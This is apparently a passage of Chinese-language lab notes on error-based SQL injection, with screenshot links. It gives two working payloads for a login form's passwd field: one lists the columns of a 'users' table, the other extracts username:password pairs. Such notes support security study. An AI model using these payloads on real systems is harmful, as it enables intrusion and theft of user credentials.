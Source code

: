 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606190000741.png" alt="image-20230606190000741" style="zoom:50%;" />

#### 爆字段

```
passwd=123') and extractvalue(0x7e, concat(0x7e, (select substring((group_concat(column_name)),1,30) from information_schema.columns where table_schema=database() and table_name='users')))#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606190045141.png" alt="image-20230606190045141" style="zoom:50%;" />

#### 拖库

```
passwd=123') and extractvalue(0x7e, concat(0x7e, (select substring((group_concat(username,":",password)),1,30) from users)))#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606190137960.png" alt="image-20230606190137960" style="zoom:50%;" />
